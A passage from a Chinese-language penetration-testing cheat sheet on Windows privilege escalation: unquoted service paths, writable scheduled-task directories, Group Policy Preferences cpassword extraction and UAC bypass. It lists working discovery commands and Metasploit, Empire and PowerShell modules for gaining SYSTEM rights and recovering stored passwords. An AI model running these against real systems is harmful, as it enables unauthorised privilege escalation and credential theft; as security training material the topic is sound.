 #### 2.2.2 可信任服务路径漏洞

如果一个服务的可执行文件的路径没有被双引号引起来且包含空格，那么这个服务就是有漏洞的  
MSF使用实战：

```bash
#寻找存在漏洞的服务
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

#msf攻击模块
exploit/windows/local/trusted_service_path

#正常接收到会话后，不久就会自动断开连接，需要开启命令自动迁移进程
set AutoRunScript migrate -f
```

#### 2.2.3 计划任务

如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以使用恶意程序覆盖原来的程序，这样在下次计划执行时，就会以高权限来运行恶意程序。

```bash
#查看计算机的计划任务
schtasks /query /fo LIST /v

#查看指定目录的权限配置情况
accesschk.exe -dqv "D:\test" -accepteula
```

### 2.3 组策略首选项提权

组策略首选项(Group Policy Preferences,GPP)，详情见谢公子的博客：[Windows组策略首选项提权](https://blog.csdn.net/qq_36119192/article/details/104344105)

```bash
#Powershell获取cpassword
Get-GPPPassword.ps1

#Msf
post/windows/gather/credentials/gpp

#Empire
usemodule privesc/gpp
```

### 2.4 绕过UAC提权

backlion师傅有一篇博文，主要写的就是这个：[使用Metasploit绕过UAC的多种方法](https://www.cnblogs.com/backlion/p/10552137.html)

```bash
#Msf
exploit/windows/local/ask       #弹出UAC确认窗口，点击后获得system权限
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_comhijack

#Powershell
Invoke-PsUACme

#Empire
usemodule privesc/bypassuac
usemodule privesc/bypassuac_wscript
```
